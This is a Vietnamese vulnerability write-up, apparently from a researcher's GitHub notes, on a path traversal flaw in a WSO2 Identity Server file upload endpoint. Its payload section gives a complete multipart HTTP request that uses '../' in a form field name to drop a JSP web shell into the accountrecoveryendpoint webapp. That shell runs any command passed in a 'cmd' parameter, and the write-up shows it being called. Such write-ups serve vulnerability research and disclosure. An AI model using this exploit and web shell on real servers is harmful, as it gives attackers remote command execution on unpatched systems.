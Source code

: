 ```java
```
+ `uuid` sẽ được tạo bởi hàm `Math.random()`
+ Kiểm tra thư mục `./tmp/extra/$uuid/` có tạo chưa, nếu chưa thì sẽ tạo ra thư mục đó.
+ Filename mình upload lên sẽ được thêm vô sau `./tmp/extra/$uuid/` -> `./tmp/extra/$uuid/$filename`
+ Nếu upload thành công thì reponse trả về `uuid` đã khởi tạo.

Vậy ở đây mình có thể control được filename => có thể path traversal để ghi vô folder mà chúng ta có quyền ghi và access được từ url => tới đây thì mình nghĩ khá chắc chắn đây là `endpoint` của vuln này, vì bản mới nhất của `carbon-kernel` đã thêm đoạn không cho mình sử dụng đường dẫn tương tối (khỏi path traversal).

Theo [README](https://github.com/wso2/product-is#wso2-identity-server-distribution-directory-structure) thì mình biết được cấu trúc của chương trình và biết được `webapp` sẽ nằm trong `repository/deployment` vì `deployment -> All deployment artifacts should go into this directory.`

![image](https://user-images.githubusercontent.com/54855855/167625902-4e46ce5c-8680-4205-a092-b821b1d89e7c.png)

Biết được trong `deployment` có chứa `client` và `server`. Trong `server` thì có `webapp` và theo như mình được biết thì đây là folder của chương trình chạy chính. Nên bây giờ mình sẽ thử ghi file shell vào trong 1 các folder ở đây. Cụ thể hơn là mình sẽ ghi vào `accountrecoveryendpoint`.

## Payload
```
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Content-Length: 727
Origin: https://localhost:9443
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysQPwV1zoETVUiAVx

------WebKitFormBoundarysQPwV1zoETVUiAVx
Content-Disposition: form-data; name="application-sp-name"

taidh
------WebKitFormBoundarysQPwV1zoETVUiAVx
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/accountrecoveryendpoint/shell.jsp"; filename="shell.jsp"
Content-Type: text/xml

<%@ page import="java.util.*,java.io.*"%>
<%
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
			out.println(disr); 
      disr = dis.readLine(); 
}
%>
------WebKitFormBoundarysQPwV1zoETVUiAVx--
```

Access `https://localhost:9443/accountrecoveryendpoint/shell.jsp?cmd=ls -l`

![image](https://user-images.githubusercontent.com/54855855/167627737-ad0b36d1-69ab-4d97-86cd-581f41928e2d.png)